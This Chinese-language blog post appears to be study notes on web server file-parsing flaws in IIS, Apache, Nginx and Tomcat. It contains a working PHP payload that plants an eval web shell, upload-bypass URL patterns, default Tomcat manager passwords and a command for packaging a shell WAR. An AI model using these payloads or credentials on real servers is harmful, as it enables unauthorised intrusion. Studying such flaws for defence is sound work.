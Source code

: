 ```yaml
---
layout:     post
title:      "解析漏洞及其他"
subtitle:   ""
date:       2017-07-231 15:00:00
author:     "S0u1"
header-img: "img/post-bg-2015.jpg"
tags:
    - 学习
---
```

#服务器解析漏洞  
##IIS5.x-6.x解析漏洞  
该解析漏洞只能解析asp文件。  

###目录解析(6.0)  
形式：www.xxx.com/xx.asp/xx.jpg  
服务器会把.asp和.asa目录下的文件都解析成asp文件。  

###文件解析  
形式：www.xxx.com/xx.asp;.jpg  
服务器默认不解析;后面的内容，因此xx.asp;.jpg被解析成asp文件。  

###解析文件类型  
IIS6.0默认的可执行文件还有：    
/test.asa  
/test.cer  
/test.cdx  

##apache解析漏洞  
形式：www.xxx.com/test.php/php123  
apache解析文件的规则是从右向左解析，如果后缀名为不可识别的文件，就继续往左识别。  
##nginx解析漏洞  
形式：www.xxx.com/UploadFiles/image/1.jpg/1.php  
www.xxx.com/UploadFiles/image/1.jpg%00/php  
www.xxx.com/UploadFiles/image/1.jpg/%20\0.php  

Nginx默认是以CGI的方式支持PHP解析的，普遍的做法是在Nginx配置文件中通过正则匹配设置SCRIPT_FILENAME。  

当访问www.xx.com/phpinfo.jpg/1.php这个URL时，$fastcgi_script_name会被设置为“phpinfo.jpg/1.php”，然后构造成SCRIPT_FILENAME传递给PHPCGI，但是PHP为什么会接受这样的参数，并将phpinfo.jpg作为PHP文件解析呢?  

这就要说到fix_pathinfo这个选项了。   如果开启了这个选项，那么就会触发在PHP中的如下逻辑:
PHP会认为SCRIPT_FILENAME是phpinfo.jpg，而1.php是PATH_INFO，所以就会将phpinfo.jpg作为PHP文件来解析了
另一种利用：  
上传一个名为test.jpg的文件，内容为：
```php
<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]?>');?>
```
然后访问test.jpg/.php，就会在根目录下生成一句话木马shell.php  

##IIS7.5解析漏洞
与nginx类似
#其他
##Tomcat远程部署漏洞  
tomcat为了方便管理与部署，安装完成后会默认有一个管理页面，管理员只需要远程上传一个war格式的文件，就可以将内容发布到网站。  
tomcat的管理地址通常是：

>http://localhost:8080/manager

默认的账号密码是：

>root/root  
tomcat/tomcat  
admin/admin  
admin/123456  

##tomcat爆破
tomcat的认证比较弱，对用户名：密码做base64编码，请求响应如果不是401即表示登陆成功。登陆成功后，可直接上传war文件来getshell。  
使用  

>jar -cvf shell.war shell.jsp

将.jsp的文件打包为war文件。

##Apache默认页面泄露漏洞  
Apache在安装后存在默认目录/icons/、/manual/  

##IIS短文件名暴力猜解漏洞
判断目标站点是否存在IIS短文件名暴力破解漏洞，可以分别访问以下两个URL：

>http://localhost/\*~1\*\*\*\*/a.aspx  
http://localhost/l1j1e\*~1\*\*\*\*/a.aspx

如果访问第一个URL，返回404，而访问第二个URL，返回400，则说明目标站点存在漏洞。